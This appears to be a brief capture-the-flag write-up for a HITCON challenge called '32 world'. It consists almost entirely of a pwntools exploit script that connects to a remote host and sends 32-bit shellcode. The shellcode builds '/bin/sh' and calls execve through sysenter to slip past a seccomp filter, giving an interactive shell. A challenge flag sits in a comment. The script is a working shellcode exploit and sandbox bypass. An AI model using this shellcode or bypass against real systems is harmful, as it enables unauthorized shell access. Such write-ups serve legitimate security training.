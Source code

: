 # 32 world
* Use `sysenter` to bypass the constrains.
```python
#!/usr/bin/env python
from pwn import *

# hitcon{s3cc0mp_1s_n0t_4lw4y_s4f3_LOL}

host , port = '54.65.133.244' , 8361
y = remote( host , port )

p = asm('''
	push 0x68732f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	mov ebp, esp
	sysenter
''')

y.sendafter( ':' , p )
y.interactive()
```